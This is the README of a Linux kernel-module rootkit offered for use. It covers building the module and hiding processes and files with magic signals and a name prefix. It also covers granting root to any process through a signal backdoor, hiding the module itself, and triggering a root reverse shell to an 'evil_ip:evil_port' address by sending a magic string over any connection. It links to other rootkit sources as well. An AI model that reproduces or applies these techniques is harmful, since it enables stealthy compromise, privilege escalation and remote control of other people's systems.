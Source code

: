 # ayylkmao.ko
An LKM rootkit for aliens by aliens.

## Installation
Make sure you have the kernel headers installed for your target system. After that you can just run:

```
git clone https://github.com/ableiten/ayylkmao && cd ayylkmao
make
```

That's all. You can install the `ayylkmao.ko` module normally.

## Basic Usage
The magic kill signals are all defined as macros in [ayylkmao.c](https://github.com/ableiten/ayylkmao/blob/master/ayylkmao.c#L11). It is recommended that you modify these.

#### Hiding Processes
You can hide processes using the signals `SIGNAL_HIDE_PROCESS` and `SIGNAL_SHOW_PROCESS`.

```
> pidof python
18237
> kill -50 18237
> pidof python
> kill -51 18237
> pidof python
18237
```
#### Hiding Files/Directories
You can hide files and directories by naming them using the `MAGIC_PREFIX` prefix.

```
> touch sp00kyfile file
> ls
file
```

#### Phoning Home
To phone home you will need a reverse shell that accepts arguments [like this one](https://github.com/ableiten/simple-reverse-shell). The tool should be saved on the infected system as `MAGIC_PREFIX-util/rev` where the rootkit knows to look for it.

After that you can simply send specially formatted data over any connection and a root reverse shell will phone home to the specified address and port.

Using the default backdoor magic, that would look something like this:
```
3tph0n3h0m3(evil_ip:evil_port)
```

#### Privilege Escalation Backdoor
You can give any process root by sending it the `SIGNAL_GIVE_ROOT` signal.

```
> whoami                                 
user
> echo $$                                
6678
> kill -52 6678                          
> whoami                                 
root
```

#### Removal
Since the kernel module is hidden and thus unremovable by default, you will need to unhid before it can be removed. To do this simply signal any process with `SIGNAL_UNHIDE_MODULE` and then you should be able to remove the module normally.

```
> kill -53 0
> rmmod ayylkmao.ko
```

## Useful Material
- [Every](https://github.com/jiayy/lkm-rootkit) [single](https://github.com/croemheld/lkm-rootkit) [other](https://github.com/m0nad/Diamorphine) [LKM](https://github.com/triedal/rootkit) [rootkit](https://github.com/nurupo/rootkit/) (Each word is a seperate link)
- http://phrack.org/issues/58/7.html
- http://www.ouah.org/LKM_HACKING.html (mirror, original unavailable as of writing)
- http://r00tkit.me/
